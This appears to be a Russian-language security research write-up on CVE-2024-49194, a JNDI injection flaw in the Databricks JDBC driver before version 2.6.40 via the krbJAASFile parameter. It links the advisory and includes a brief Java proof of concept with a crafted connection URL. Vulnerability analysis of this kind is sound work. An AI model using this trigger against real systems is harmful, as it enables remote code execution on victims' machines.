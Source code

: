# Обзор #

## Описание уязвимости на github asvisory: ##
https://github.com/advisories/ghsa-jxw2-jvxf-5vrp

## Описание уязвимости: ##

Драйвер Databricks JDBC до версии 2.6.40 потенциально может допускать удаленное выполнение кода (RCE), запуская инъекцию JNDI через параметр URL JDBC. Уязвимость коренится в неправильной обработке параметра krbJAASFile. Злоумышленник потенциально может использовать эту уязвимость для удаленного выполнения кода в контексте драйвера, обманом заставив жертву использовать созданный URL-адрес соединения, который использует свойство krbJAASFile.

## public метод пакета приводящий к уязвимости ##
CVE-2024-49194 - javax.naming.InitialContext.lookup

### Репозиторий проекта с уязвимостью: ###

https://mvnrepository.com/artifact/com.databricks/databricks-jdbc
Код можно будет посмотреть, например, в Idea

## PoC: ##

~~~java
public class Main {  
    public static void main(String[] args) throws Exception {  
        String jdbcUrl = "jdbc:databricks://127.0.0.1:443;AuthMech=1;KrbAuthType=1;httpPath=/;KrbHostFQDN=test;KrbServiceName=test;krbJAASFile=jaas.conf";  
        DriverManager.getConnection(jdbcUrl);
    }  
}
~~~
![jndi](jndi.png)

## Коммиты, исправившие уязвимость: ##

Был исправлен в версии 2.6.40. Открытый доступ к коммиту отсутствует
В новой версии удалена поддержка параметра krbJAASFile

![fix](fix.png)

# Анализ уязвимости #

![1](1.png)
![2](2.png)
![3](3.png)
![4](4.png)
![5](5.png)
![6](6.png)
![7](7.png)
![8](8.png)
